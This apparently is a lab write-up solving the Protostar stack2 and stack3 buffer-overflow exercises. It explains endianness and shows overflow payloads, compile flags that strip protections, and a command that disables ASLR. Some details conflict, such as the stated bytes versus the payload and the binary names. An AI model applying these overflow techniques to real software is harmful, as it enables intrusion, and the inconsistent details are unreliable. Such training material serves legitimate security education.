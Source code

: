 

Stack2
======

Grab the code: [https://exploit-exercises.com/protostar/stack2/]("https://exploit-exercises.com/protostar/stack2/").  
You will need to overwrite `modified` with a specific value, input is provided by an environment variable.

Endieness matters
-----------------
Computers store words in memory. On intel 32bit architectures this word is 32bit in length, meaning 4 characters. If you write characters in a buffer they get written in order from the lowest address in the buffer to the upper addresses. But if you read it as an 32bit integer value, it is not nessesarily interpreted in the same way!  
The interpretation of integer values is specified by the [endianess]("https://en.wikipedia.org/wiki/Endianness") of the platform. The endianess describes, whether the **most significant byte** of a 32bit value is stored on the lowest (little endian) or highest (big endian) address of a word. This means, the 32bit value 0x11223344 is stored bytewise as 0x44 0x33 0x22 0x11 on little endian, with 0x44 is byte 4 not byte 1 as the character representation suggests.

Writing specific integer values
-------------------------------
This level is solved in the same way. This time, the overflow occurs while reading an environment variable instead of user input. Also we need to modify the overridden variable to an exact value (`0x0d0a0d0a`). To get this solved, have a look at [https://en.wikipedia.org/wiki/Endianness][3]. When writing bytes to buffer, they will be stored in the opposite order than inputted (at least on x86).

Example for the input "12345678":
```
  | <- Higher Address
[ 0x08 0x07 0x06 0x05 ]
[ 0x04 0x03 0x02 0x01 ]
     Lower Address >|
```
So the input provided needs to be `64*Garbage + 0x0a + 0x0b + 0x0a + 0x0b`.
Let's compile an try:
```language-bash
> gcc -m32 -fno-stack-protector -z execstack -mpreferred-stack-boundary=2 -o stack2 stack2.c
> export GREENIE=`python -c 'print "A"*64+"\x0a\x0d\x0a\x0d"'`
> ./main
you have correctly modified the variable
```



Stack3
======

Grab the code: [https://exploit-exercises.com/protostar/stack3/][4]

We need to get fp to point to the location of the `win()` function. When loading a binary, you get virtual memory allocated. From the process, this virtual memory always looks the same. You have fixed locations for the stack, fixed location on where all shared libraries get loaded, fixed locations for the start of the heap and so on. On each run of the binary all functions and external libraries get loaded to the same address (at least, if you do not have ASLR enabled!).
You can get a map of all those memory regions by using `objdump`. If we have found the location for the `win()` function, we can simply overflow `buffer` thus writing the address to `fp`. Remember, that you have to input the bytes of the address in opposite order.
```language-bash
> echo 0 > /proc/sys/kernel/randomize_va_space
> gcc -m32 -fno-stack-protector -z execstack -mpreferred-stack-boundary=2 -o stack3 stack3.c
> objdump -t stack3 | grep win
08048480 g F .text 00000014 win
> python -c 'print "A"*64+"\x80\x84\x04\x08"' | ./main
code flow successfully changed
```


  [1]: https://exploit-exercises.com/protostar/stack0/
  [2]: https://exploit-exercises.com/protostar/stack2/
  [3]: https://en.wikipedia.org/wiki/Endianness
  [4]: https://exploit-exercises.com/protostar/stack3/
  [5]: https://exploit-exercises.com/protostar/stack4/